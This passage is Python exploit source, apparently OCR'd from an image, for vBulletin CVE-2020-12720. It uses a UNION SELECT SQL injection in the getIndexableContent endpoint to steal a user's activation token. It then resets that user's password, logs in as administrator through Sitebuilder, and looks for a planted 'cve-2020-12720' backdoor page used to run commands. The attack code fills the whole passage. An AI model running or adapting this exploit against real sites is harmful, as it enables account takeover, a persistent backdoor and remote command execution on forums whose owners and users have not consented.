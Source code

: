         sPath = 'ajax/api/content_infraction/getIndexableContent'
        lData = {'nodeId[nodeid]':'1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,activationid,8,7,6,5,4,3,2,1 from ' + sPrefix + 'useractivation WHERE userid=' + sUserid + ' limit 0,1--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: sToken = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','')
        else: sToken = ''

        ## Finally the password reset itself
        sPath = 'auth/reset-password'
        lData = {'userid':sUserid,'activationid':sToken,'new-password':sNEWPASS,'new-password-confirm':sNEWPASS,'securitytoken':'guest'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if not 'Logging in' in sResponse:
            print('[-] Failed to reset the password')
            return ''
        else:
            print('[+] Success! User ' + sUsername + ' now has password ' + sNEWPASS)
        return sUserid

    def createBackdoor(sURL, sADMINPASS, sUserid='1'):
        ## Activating Sitebuilder
        sPath = 'ajax/activate-sitebuilder'
        lData = {'pageid':'1', 'nodeid':'0','userid':'1','loadMenu':'false', 'isAjaxTemplateRender':'true', 'isAjaxTemplateRenderWithData':'true','securitytoken':'1589477194-0e3085507fb50fc1631610a28e045c5fa71a2a12'}
        oResponse = getData(sURL + sPath, lData)
        if not oResponse.code == 200:
            print('[-] Error activating sitebuilder')
            sys.exit(1)

        ## Confirming the password, getting new securitytoken
        sPath = 'auth/ajax-login'
        lData = {'logintype':'cplogin','userid':sUserid,'password':sADMINPASS,'securitytoken':'1589477194-0e3085507fb50fc1631610a28e045c5fa71a2a12'}
        oResponse = getData(sURL + sPath, lData)
        sResponse = oResponse.read().decode()
        if 'lostpw' in sResponse:
            print('[-] Error: authentication for userid ' + sUserid + ' failed')
            sys.exit(1)
        sToken = sResponse.split(',')[1].split(':')[1].replace('"','').replace('}','')
        print('[+] Got token: '+sToken)

        ## cpsession is needed, use this for extra verification
        #for cookie in cj: print(cookie.name, cookie.value, cookie.domain) #etc etc

        ## First see if our backdoor does not already exists
        sPath = 'ajax/render/admin_sbpanel_pagelist_content_wrapper'
        lData = {'isAjaxTemplateRenderWithData':'true','securitytoken':sToken}
        oResponse = getData(sURL + sPath, lData)
        sResponse = oResponse.read().decode()
        if 'cve-2020-12720' in sResponse:
            sPageName = 'cve-2020-12720-' + sResponse.split('/cve-2020-12720-')[1].split(')')[0]
            print('[+] This machine was already pwned, using "' + sPageName + '" for your command')
            return sPageName
        